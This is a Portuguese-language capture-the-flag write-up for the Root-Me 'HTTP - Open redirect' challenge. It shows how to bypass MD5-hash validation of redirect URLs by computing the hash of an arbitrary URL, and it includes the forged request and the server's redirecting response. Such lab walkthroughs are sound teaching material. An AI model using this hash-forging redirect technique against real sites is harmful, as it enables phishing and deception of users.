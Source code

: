 # HTTP - Open redirect 

Checando o código fonte, inspecionando elemento ou copiando o link, encontramos:

  - https://facebook.com&h=a023cfbf5f1c39bdf8407f28b60cd134

  - https://twitter.com&h=be8b09f7f1f66235a9c91986952483f0

  - https://slack.com&h=e52dc719664ead63be3d5066c135b6da

A validação é feita por meio de hash MD5:

<pre>root@kali:~# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: a023cfbf5f1c39bdf8407f28b60cd134

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))</pre>

É possível capturar a requisição com [Burp Suit](https://portswigger.net/burp) ou com a extensão [HTTP Header Live](https://addons.mozilla.org/pt-BR/firefox/addon/http-header-live/) de firefox, edita-la e fazer o reenvio:

Podemos gerar o hash md5 de https://google.com, enviar e olhar a resposta da requisição com Burp Suit:

<pre>root@kali:~# python2.7
Python 2.7.17 (default, Oct 19 2019, 23:36:22)
[GCC 9.2.1 20191008] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import md5
>>> md5.new('https://google.com').digest().encode('hex')
'99999ebcfdb78df077ad2727fd00969f'</pre>

## Resposta

http://challenge01.root-me.org/web-serveur/ch52/?url=https://google.com&h=99999ebcfdb78df077ad2727fd00969f

<pre>HTTP/1.1 200 OK
Server: nginx
Date: Thu, 30 Jan 2020 20:03:20 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
Content-Length: 1027

<!DOCTYPE html>
<html>
<head>
        <title>HTTP - Open redirect</title>
</head>


<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
        <p>Well done, the flag is flag_here</p><script>document.location = 'https://google.com';</script></pre>
